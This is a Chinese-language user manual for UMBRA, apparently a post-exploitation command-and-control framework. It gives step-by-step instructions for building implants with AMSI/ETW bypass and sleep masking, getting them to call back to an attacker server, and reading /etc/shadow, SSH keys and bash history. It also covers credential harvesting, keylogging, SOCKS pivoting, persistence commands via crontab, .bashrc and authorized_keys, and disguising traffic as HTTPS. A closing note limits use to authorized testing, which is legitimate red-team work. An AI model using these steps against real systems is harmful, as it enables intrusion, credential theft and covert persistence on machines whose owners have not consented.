



# UMBRA 使用手册

> 从安装到实战的完整操作指南。每一步都有验证方法和排错思路。

---

## 目录

- [快速开始](#快速开始)
- [第一步 · 安装](#第一步--安装)
- [第二步 · 创建操作员](#第二步--创建操作员)
- [第三步 · 启动服务端](#第三步--启动服务端)
- [第四步 · 启动客户端](#第四步--启动客户端)
- [第五步 · 连接服务器](#第五步--连接服务器)
- [第六步 · 创建监听器](#第六步--创建监听器)
- [第七步 · 生成植入体](#第七步--生成植入体)
- [第八步 · 会话上线](#第八步--会话上线)
- [第九步 · 后渗透操作](#第九步--后渗透操作)
- [第十步 · 导出报告](#第十步--导出报告)
- [网络场景专题](#网络场景专题)
- [排错手册](#排错手册)
- [快捷键速查](#快捷键速查)

---

## 快速开始



**五步上线，顺序不能错：**

```
1. 部署        sudo bash install.sh all
2. 启动服务端   ./umbra.py server start
3. 连接认证     客户端 → 服务器 → 添加 → 点「认证」
4. 建监听器     Shift+L → 添加 → Port to Open: 8080
5. 生成植入体   Shift+I → C2 地址填宿主机 IP → Build
```

**最常见的失败原因**：跳过第 3 步的「认证」，直接去建监听器 → 服务器下拉框为空 → 卡住。

---

## 第一步 · 安装

### Linux

```bash
git clone https://github.com/Leechuihui/umbra.git
cd umbra
sudo bash install.sh all
```

**参数说明**：

| 参数 | 作用 | 耗时 |
|---|---|---|
| `all` | 服务端 + 客户端 | 30–40 分钟 |
| `server` | 只装服务端 | 10–15 分钟 |
| `client` | 只装客户端 | 20–30 分钟 |

**安装脚本做了什么**：

1. 安装系统依赖（编译器、Python、Node.js、图形库）
2. 创建 Python 虚拟环境，安装 28 个依赖包
3. 编译 SGN 编码器（Rust）
4. 下载 Go 模块（跨平台植入体）
5. 构建 Electron 客户端 → AppImage
6. 创建桌面快捷方式和图标

**验证安装**：

```bash
ls -lh client/gui/dist/umbra.AppImage   # 约 149 MB
ls -d server/venv                        # Python 环境存在
./umbra.py version                       # 显示版本号
```

期望输出：

```
client   1.0.0
server   1.4.8
```

### Windows

```cmd
install\windows.bat all
```

需要**管理员权限**。

### macOS

```bash
sudo bash install/mac.sh all
```

### 安装排错

| 现象 | 原因 | 解决 |
|---|---|---|
| `Permission denied` | 脚本缺执行位 | `bash install.sh all`（用 bash 调用） |
| `libgtk-3-0 not found` | Ubuntu 24.04 改名 t64 | 脚本已自动处理，无需干预 |
| `ENOSPC` | `/tmp` 是内存盘空间不足 | 脚本已重定向 TMPDIR |
| Node 版本过低 | 系统自带 Node < 20 | 脚本自动装 Node 22 |
| Python 版本过低 | 系统 Python < 3.10 | 手动升级 Python |

---

## 第二步 · 创建操作员

```bash
cd /opt/umbra
./umbra.py server key add admin
```

**输出**：

```
admin:CjzeeStPQ9wfCnyH5iwHKzK:BtdxBz5pYq4fcOpFefvwwlmgIrO5...
Operator created successfully: admin
Saved: /opt/umbra/admin.key
```

### 密钥格式

```
用户名:密码:密钥
  ↑      ↑     ↑
 admin  ...   ...
```

**重要**：

- 整行都要保存，**只显示这一次**
- 密码部分服务端存 bcrypt 哈希，不可逆
- 密钥部分明文存储，长度 128 字符

### 管理操作员

```bash
# 列出所有操作员
./umbra.py server key list

# 删除操作员
./umbra.py server key rem admin
```

> 删除操作员后，他手上的 JWT 立即失效（中间件会检查用户是否还存在）。

---

## 第三步 · 启动服务端

```bash
cd /opt/umbra
./umbra.py server start
```

**期望输出**：

```
Loading dependencies ... done
Starting SQLite database ... done
Starting NukeScripts worker ... done
INFO:     Uvicorn running on http://0.0.0.0:9000
```

### 验证

```bash
ss -ltn | grep 9000
# LISTEN 0 2048 0.0.0.0:9000 0.0.0.0:*
```

```bash
curl -s -o /dev/null -w '%{http_code}' http://127.0.0.1:9000/
# 401  ← 正常，说明认证保护生效
```

> **401 是好事**，说明服务端在运行且认证中间件工作正常。

### 重要提醒

- **这个终端不能关**。关掉服务端就停了。
- 建议 `Ctrl+Shift+T` 开新终端做后续操作。
- 想后台运行：`nohup ./umbra.py server start > /tmp/srv.log 2>&1 &`

### 配置管理

```bash
# 查看所有配置
./umbra.py server config list

# 修改端口
./umbra.py server config set server.port 9443

# 重置某项
./umbra.py server config reset server.port

# 生成自签 TLS 证书
./umbra.py server config create-tls
```

---

## 第四步 · 启动客户端

### Linux（Kali / Ubuntu）

```bash
export DISPLAY=:0
/opt/umbra/client/gui/dist/umbra.AppImage --appimage-extract-and-run --no-sandbox
```

**参数解释**：

| 参数 | 为什么需要 |
|---|---|
| `--appimage-extract-and-run` | Kali 只有 libfuse3，AppImage 需要 libfuse2 |
| `--no-sandbox` | root 运行时 Chromium 沙箱冲突 |

> **更简单的方式**：直接用桌面快捷方式「UMBRA」，安装脚本已创建，会自动处理这些参数。

### Windows

```cmd
umbra.exe client start
```

或双击桌面快捷方式。

### macOS

```bash
open /Applications/umbra.app
```

### 首次启动会做什么

1. 在用户目录创建配置文件夹
   - Linux: `~/.config/umbra/`
   - Windows: `%APPDATA%\umbra\`
   - macOS: `~/Library/Application Support/umbra/`
2. 生成空的 `config.json`（`{"servers": []}`）
3. 显示主界面

---

## 第五步 · 连接服务器

### 操作步骤

1. 顶栏点击 **UMBRA → 服务器**
2. 点 **添加**
3. 填写表单

| 字段 | 示例值 | 说明 |
|---|---|---|
| 名称 | `kali-lab` | 任意，用于识别 |
| 协议 | `http` | 生产环境用 `https` |
| 主机 | `127.0.0.1` | 服务端 IP |
| 端口 | `9000` | 服务端端口 |
| 密钥 | `admin:xxx:yyy` | 粘贴**整行** |

4. 点 **「认证」** ← **关键步骤**

### 为什么必须点认证

服务器配置**只有在认证成功后才写入** `config.json`。

```
填表单 → 点认证 → 服务端验证 → 返回 JWT → 写入 config.json
                ↓
           失败则不保存
```

**只填表单不点认证 = 什么都没保存。** 后面建监听器时服务器下拉框会是空的。

### 验证成功

```bash
cat ~/.config/umbra/config.json
```

应该看到：

```json
{
  "servers": [
    {
      "id": "a1b2c3",
      "name": "kali-lab",
      "ip": "http://127.0.0.1",
      "port": "9000",
      "user": "admin",
      "pass": "...",
      "secret": "...",
      "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..."
    }
  ]
}
```

界面表现：状态灯变绿，提示 `Authenticated`。

### 排错

| 现象 | 原因 | 解决 |
|---|---|---|
| `Invalid credentials` | 密钥某段错误 | 检查三段是否完整、无多余空格 |
| `Expired session` | 服务端重启导致 JWT 密钥变化 | 重新认证 |
| 连接超时 | 服务端没启动 | `ss -ltn` 查 9000 |
| 连接超时 | 防火墙拦截 | 检查 iptables / ufw |
| 下拉框空 | 没点认证 | 重新添加并点认证 |

---

## 第六步 · 创建监听器

### 操作步骤

1. 按 `Shift+L` 打开监听器面板
2. 点 **添加**
3. 填写

| 字段 | 示例值 | 说明 |
|---|---|---|
| 名称 | `http-8080` | 任意 |
| 类型 | `Channel` | 通道类型 |
| 通道 | `http` | 通信协议 |
| 服务器 | `kali-lab - http://127.0.0.1:9000` | 下拉选择 |
| Port to Open | `8080` | **实际监听端口** |

4. 点 **创建**

### 验证

```bash
ss -ltn | grep 8080
# LISTEN 0 2048 0.0.0.0:8080 0.0.0.0:*
```

### 通道类型选择

| 通道 | 端口 | 适用场景 | 隐蔽性 |
|---|---|---|---|
| `http` | 80/8080 | 通用，首选 | 高 |
| `https` | 443/8443 | 有流量检测 | 最高 |
| `file_server` | 自定义 | 文件传输专用 | 中 |

### 字段详解

| 字段 | 含义 |
|---|---|
| `host` | 绑定地址，`0.0.0.0` 表示所有网卡 |
| `port` | 显示用的端口字符串 |
| `portToOpen` | **实际监听的端口**（服务端用这个） |

---

## 第七步 · 生成植入体

### 操作步骤

1. 按 `Shift+I` 打开植入体面板
2. 选 **Stageless**
3. 填写配置
4. 点 **Build**

### 常规配置

| 字段 | 示例 | 说明 |
|---|---|---|
| 编译服务器 | `127.0.0.1:9000` | 由哪台服务端编译 |
| 操作系统 | `Windows` / `Linux` / `macOS` | 目标系统 |
| 架构 | `x64` / `x86` / `arm64` | 目标 CPU |
| 格式 | `exe` / `elf` / `macho` | 可执行格式 |

### C2 配置（★最关键）

| 字段 | 示例 | 说明 |
|---|---|---|
| 通道 | `http` | 必须和监听器一致 |
| **Server 地址** | **`192.168.1.38`** | **目标能访问到的地址** |
| **端口** | **`8080`** | 监听器端口 |
| 延迟 | `5` | 心跳间隔（秒） |
| 抖动 | `20` | 随机化百分比 |

#### Server 地址怎么填

**这是最容易错的地方。** 判断标准：**从目标机能不能访问到这个地址？**

| 场景 | 填什么 | 原因 |
|---|---|---|
| 目标和服务器同网段 | 服务器 IP | 直接可达 |
| 服务器在 NAT 后 | **宿主机 IP** | 目标只能访问宿主机 |
| 服务器有公网 IP | 公网 IP | 直接可达 |
| 通过端口转发 | **转发入口 IP** | 转发到真实服务器 |

**验证方法**（在目标机上执行）：

```bash
curl -v http://192.168.1.38:8080
# 能连上（哪怕返回错误）就说明地址对了
```

#### 延迟与抖动

```
实际心跳间隔 = delay × (1 ± jitter/100) 的随机值
```

例：`delay=5, jitter=20` → 4.0–6.0 秒随机

| 场景 | 建议延迟 | 建议抖动 |
|---|---|---|
| 演示 / 内网 | 3–5 秒 | 10–20% |
| 真实测试 | 30–60 秒 | 20–30% |
| 高对抗环境 | 120–300 秒 | 30–50% |

### 运行时规避

| 选项 | 作用 | 风险 |
|---|---|---|
| AMSI patch | 绕过 PowerShell 检测 | 中，可能被行为检测 |
| ETW patch | 绕过事件追踪 | 中 |
| 睡眠掩码 | 加密休眠内存 | 低，推荐 |
| 字符串混淆 | 隐藏敏感字符串 | 低，推荐 |

> **提醒**：这些技术不保证绕过任何特定杀软。现代 EDR 有多层检测。

### 两种模式对比

| 模式 | 文件大小 | 隐蔽性 | 可靠性 | 适用 |
|---|---|---|---|---|
| Stageless | 大（几 MB） | 低 | 高 | 新手、内网 |
| Loader | 小（几十 KB） | 高 | 中 | 有分发通道 |

---

## 第八步 · 会话上线

### 在目标上执行

**Linux**：

```bash
chmod +x implant
./implant

# 后台运行
nohup ./implant &
```

**Windows**：

```cmd
implant.exe

:: 后台运行
start /b implant.exe
```

### 客户端查看

1. 按 `Alt+S` 打开会话列表
2. 等待几秒（取决于延迟设置）
3. 双击会话进入终端

### 会话信息

| 字段 | 含义 |
|---|---|
| 主机名 | 目标计算机名 |
| 用户名 | 当前运行用户 |
| 系统 | 操作系统和版本 |
| 权限 | 是否管理员/root |
| 内网 IP | 目标的内网地址 |
| 最后心跳 | 最近一次回连时间 |

### 上线失败排查流程

按这个顺序查，**不要跳步**：

```
① 目标能访问 C2 地址吗？
   → 在目标机 curl http://<c2地址>:<端口>
   → 不通 = 网络问题，先解决网络

② 监听器在监听吗？
   → 在服务器 ss -ltn 查对应端口
   → 没有 = 监听器没创建成功

③ 端口转发配了吗？（NAT 场景）
   → VBoxManage showvminfo <vm> 查 Forwarding
   → 没有 = 补上 natpf1 规则

④ 植入体真的在跑吗？
   → 在目标机 ps aux 查 implant
   → 没有 = 执行失败或被拦截

⑤ 防火墙拦了吗？
   → 目标机 iptables -L / ufw status
   → 服务器 iptables -L

⑥ 看服务端日志
   → 服务端终端有没有收到连接记录
```

---

## 第九步 · 后渗透操作



### 命令执行（`Alt+T`）

```bash
whoami
id
uname -a
cat /etc/shadow        # root 才能读
cat /etc/passwd
ps aux
netstat -tulpn
```

### 文件操作（`Alt+F`）

**重点目录**：

| 路径 | 找什么 |
|---|---|
| `/root/.ssh/` | SSH 私钥、authorized_keys |
| `/etc/shadow` | 密码哈希 |
| `/etc/passwd` | 用户列表 |
| `/var/www/html/` | 网站源码、配置文件 |
| `~/.bash_history` | 历史命令 |
| `/etc/crontab` | 定时任务 |
| `/opt/`、`/srv/` | 自建应用 |

### 凭据收集（`Alt+K`）

手动记录找到的：

- 明文密码
- 密码哈希
- SSH 私钥
- API Token
- 数据库连接串

> 收集到的凭据是横向移动的钥匙。同一个密码经常在多个系统复用。

### 进程查看（`Alt+R`）

**重点识别**：

| 进程特征 | 可能是 |
|---|---|
| `clamd`、`freshclam` | ClamAV |
| `falcon`、`csagent` | CrowdStrike |
| `MsMpEng` | Windows Defender |
| `osqueryd` | Osquery |
| `auditd` | Linux 审计 |
| `mysqld`、`postgres` | 数据库 |
| `nginx`、`apache2` | Web 服务 |

### 屏幕截图

工具栏相机图标。用途：

- 确认是否有人在操作
- 判断最佳行动时机
- 记录证据

### 键盘记录

> **涉及隐私，仅限明确授权的测试。**

### 横向移动 · SOCKS 代理（`Shift+N`）

**操作**：

1. 打开网络面板
2. 添加 → 类型选 `socks`
3. 监听端口 `1080`
4. 目标主机填已攻陷的主机
5. 启动

**使用**：

```bash
# 命令行测试
curl --socks5 192.168.1.38:1080 http://内网目标/

# 浏览器配置
# 代理类型：SOCKS5
# 地址：192.168.1.38
# 端口：1080
```

**原理**：

```
你的机器 → 宿主机:1080 → 目标机 → 内网其他机器
```

### 权限维持

| 方法 | 命令示例 | 隐蔽性 |
|---|---|---|
| crontab | `echo '* * * * * /path/implant' > /tmp/c; crontab /tmp/c` | 中 |
| systemd | 创建 `/etc/systemd/system/xxx.service` | 中 |
| .bashrc | `echo '/path/implant &' >> ~/.bashrc` | 低 |
| SSH 公钥 | `echo 'ssh-rsa ...' >> ~/.ssh/authorized_keys` | 中 |
| LD_PRELOAD | 劫持动态库 | 高 |

> 实战中选最不容易被发现的。测试完成后记得清理。

---

## 第十步 · 导出报告

### 操作

1. 按 `Shift+R` 打开报告面板
2. 点 **创建**
3. 选择范围（全部会话 / 指定会话）
4. 选择格式
5. 生成并下载

### 格式对比

| 格式 | 用途 |
|---|---|
| PDF | 交付客户，正式报告 |
| HTML | 在线查看，可交互 |
| JSON | 程序处理，导入其他工具 |

### 报告内容

- 执行过的所有命令及输出
- 发现的 IOC（失陷指标）
- 失陷主机清单
- 时间线
- 凭据列表

---

## 网络场景专题



### 场景 1 · 同网段（最简单）

```
攻击机 192.168.1.100 ←→ 目标 192.168.1.46
```

**配置**：

- 监听器端口：`8080`
- 植入体 C2 地址：`192.168.1.100:8080`

**验证**：目标机 `curl http://192.168.1.100:8080`

### 场景 2 · NAT 后（VirtualBox 默认）★常见

```
Kali 10.0.2.15 (NAT) ←→ 宿主机 192.168.1.38 ←→ 目标 192.168.1.46
```

**问题**：目标连不上 `10.0.2.15`

**解决**：端口转发

```powershell
VBoxManage controlvm kali natpf1 "umbra-http,tcp,,8080,,8080"
```

**配置**：

- 监听器端口：`8080`
- 植入体 C2 地址：**`192.168.1.38:8080`**（宿主机 IP）

**验证**：

```bash
# 目标机执行
curl -v http://192.168.1.38:8080
```

### 场景 3 · 云服务器（有公网 IP）

```
云服务器 1.2.3.4 ←→ 目标（任意位置）
```

**配置**：

- 监听器端口：`443`（伪装 HTTPS）
- 植入体 C2 地址：`1.2.3.4:443`
- 通道：`https`

**注意**：

- 云厂商安全组要放行端口
- 建议用 443 端口，不容易被拦
- 配置 TLS 证书：`./umbra.py server config create-tls`

### 场景 4 · 纯内网横向

```
已攻陷主机 A 10.0.0.5 ←→ 内网目标 B 10.0.0.20
```

**配置**：

- 在 A 上建监听器，端口 `445`（SMB）或 `8080`
- 植入体 C2 地址：`10.0.0.5:8080`
- 通道：`http` 或 `smb`

**优势**：内网流量不触发出网告警

---

## 排错手册

### 安装阶段

| 现象 | 原因 | 解决 |
|---|---|---|
| `Permission denied` | 脚本缺执行位 | `bash install.sh all` |
| `libgtk-3-0 not found` | t64 改名 | 脚本已处理 |
| `ENOSPC` | /tmp 空间不足 | 脚本已处理 |
| `npm install` 失败 | 网络问题 | 配置 npm 镜像 |
| Rust 编译失败 | 缺 cargo | `apt install cargo` |

### 启动阶段

| 现象 | 原因 | 解决 |
|---|---|---|
| 端口被占用 | 9000 已被用 | `lsof -i:9000` 找进程杀掉 |
| 数据库损坏 | 异常退出 | 备份后删 `database.db` 重建 |
| 客户端白屏 | GPU 问题 | 加 `--disable-gpu` |
| `EACCES config.json` | 目录无写权限 | 已修复，配置写到 `~/.config/umbra/` |

### 连接阶段

| 现象 | 原因 | 解决 |
|---|---|---|
| `Invalid credentials` | 密钥错 | 检查三段完整性 |
| `Expired session` | JWT 失效 | 重新认证 |
| 连接超时 | 服务端没起 | 查 9000 端口 |
| 下拉框空 | 没点认证 | 重新添加并认证 |

### 上线阶段

| 现象 | 原因 | 解决 |
|---|---|---|
| 会话不上线 | C2 地址错 | 用目标机 curl 验证 |
| 会话不上线 | 端口转发没配 | 补 natpf1 规则 |
| 会话不上线 | 监听器没建 | 查 8080 端口 |
| 会话不上线 | 防火墙拦 | 检查 iptables |
| 上线后掉线 | 心跳超时 | 增大 delay |
| 上线后掉线 | 进程被杀 | 检查杀软 |

### 操作阶段

| 现象 | 原因 | 解决 |
|---|---|---|
| 命令无响应 | 目标卡顿 | 等待或重连 |
| 文件下载失败 | 权限不足 | 换可写目录 |
| 截图黑屏 | 无图形界面 | 正常现象 |
| 代理不通 | 目标网络限制 | 换通道类型 |

---

## 快捷键速查

| 快捷键 | 功能 |
|---|---|
| `Ctrl+K` | 命令面板（模糊搜索所有功能） |
| `Alt+T` | 终端 |
| `Alt+F` | 文件浏览器 |
| `Alt+R` | 进程管理 |
| `Alt+S` | 会话列表 |
| `Alt+K` | 凭据管理 |
| `Shift+L` | 监听器 |
| `Shift+I` | 植入体 |
| `Shift+N` | 网络 / 代理 |
| `Shift+R` | 报告 |
| `Ctrl+W` | 关闭当前面板 |
| `Ctrl+,` | 设置 |

---

## 命令行速查

```bash
# 版本
./umbra.py version

# 服务端
./umbra.py server start
./umbra.py server config list
./umbra.py server config set <key> <value>
./umbra.py server config reset <key>
./umbra.py server config create-tls

# 操作员
./umbra.py server key list
./umbra.py server key add <name>
./umbra.py server key rem <name>

# Python 包管理
./umbra.py server venv list
./umbra.py server venv install <package>
./umbra.py server venv uninstall <package>

# 数据库
./umbra.py server db usage
./umbra.py server db export <path>
./umbra.py server db import <file>

# 客户端
./umbra.py client start
```

---

## 安全提醒

> **UMBRA 只能用于授权的安全测试。**
>
> - 必须有**书面授权**，明确测试范围和时间
> - 口头同意不算，事后追认不算
> - 未经授权访问计算机系统违反《刑法》第 285 条
> - 测试完成后要清理所有植入体和后门
> - 发现的数据要保密，测试结束销毁

---

*UMBRA · Post Exploitation Framework · Author: Philippe*
